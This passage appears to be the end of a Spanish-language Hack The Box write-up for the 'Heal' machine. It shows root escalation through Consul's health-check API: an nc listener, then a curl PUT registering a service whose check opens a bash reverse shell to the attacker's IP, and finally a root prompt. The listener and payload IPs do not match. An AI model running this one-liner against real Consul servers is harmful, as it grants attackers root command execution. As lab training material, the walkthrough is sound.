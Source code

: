 Al acceder al panel web desde el navegador, confirmo que se trata de Consul v1.19.2. Una búsqueda rápida revela que esta versión es vulnerable a ejecución remota de comandos mediante la API de health checks.

![](assets/img/htb-writeup-heal/heal4_3.png)

Inicio un listener en mi máquina.

```terminal
/home/kali/Documents/htb/machines/heal:-$ nc -nvlp 443
	listening on [any] 443 ...
```

A partir de [exploit-db/51117](https://www.exploit-db.com/exploits/51117), elaboro un one liner adaptado al entorno. Envío una petición PUT a la API de Consul que registra un nuevo servicio con un health check malicioso. Este ejecuta una reverse shell hacia mi equipo. Como resultado, recibo una conexión reversa con privilegios de `root`.

```terminal
/home/kali/Documents/htb/machines/heal:-$ curl -X PUT http://127.0.0.1:8500/v1/agent/service/register -H "X-Consul-Token: 0" -H "Content-Type: application/json" -d '{"Address": "127.0.0.1", "Check": {"Args": ["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.15.46/443 0>&1"], "Interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "gato", "Port": 80}'

	... connect to [10.10.16.31] from (UNKNOWN) [10.10.11.46] 58660

root@heal:/# id
uid=0(root) gid=0(root) groups=0(root)

root@heal:/# cat /root/root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/640" target="_blank">***Litio7 has successfully solved Heal from Hack The Box***</a>
{: .prompt-info style="text-align:center" }
